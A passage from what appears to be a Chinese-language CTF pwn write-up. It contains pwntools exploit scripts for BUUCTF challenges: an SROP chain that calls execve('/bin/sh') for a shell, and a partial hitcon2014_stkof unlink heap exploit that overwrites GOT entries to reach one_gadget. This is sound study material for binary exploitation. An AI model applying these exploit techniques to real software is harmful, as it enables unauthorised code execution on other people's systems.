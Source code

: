 ```python  
libc = ELF("/home/N0vice/Desktop/BUUCTF/libc-2.27.so")
syscall_addr = 0x0000000000400517
st_sigreturn = 0x00000000004004da
main_addr = elf.symbols['main']
#gdb.attach(p)
payload = "/bin/sh\x00" + "\x00"*8 + p64(0x4004EE) 
p.send(payload)
p.recv(32)
stack_addr = u64(p.recv(8))
stack_addr = stack_addr - 280
log.success('stack_addr==>' + hex(stack_addr))

frame = SigreturnFrame()
frame.rax = constants.SYS_execve
frame.rdi = stack_addr
frame.rsi = 0
frame.rdx = 0
frame.rsp = stack_addr
frame.rip = syscall_addr

payload = "a"*16 + p64(st_sigreturn) + p64(syscall_addr) + str(frame)
p.send(payload)
p.interactive()
```  
## 0x11  hitcon2014_stkof  
unlink，通过从chunk_mem_addr的指针指向的地方开始修改，即从0x602138开始修改，然后将三个数组分别改成free_got,puts_got,atoi_got三个got表，然后再通过修改chunk1，把free_got改写为puts_plt，然后执行free函数就会泄露puts函数地址，最后改atoi函数的got为one_gadget，只要输入选项就会执行atoi函数，即执行one_gadget  
```python  
from pwn import*
#context.log_level = 'debug'
context.terminal = ['terminator','-x','sh','-c']
context.arch = 'amd64'
#p=remote("node3.buuoj.cn",25166)
p = process("./stkof")
elf = ELF("./stkof")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
bss = 0x602140 + 0x10
free_got=elf.got['free']
puts_got=elf.got['puts']
atoi_got=elf.got['atoi']
puts_plt=elf.plt['puts']
def add(size):
    p.sendline("1")
    p.sendline(str(size))
    p.recvuntil("OK\n")
def free(idx):
    p.sendline("3")
    p.sendline(str(idx))
def edit(idx,size,content):
    p.sendline("2")
    p.sendline(str(idx))
    p.sendline(str(size))
    p.send(content)
    p.recvuntil("OK\n")

add(0x10)
add(0x30)
add(0x80)

payload = p64(0) + p64(0x31) + p64(bss-0x18) + p64(bss-0x10)
payload += "a"*0x10
```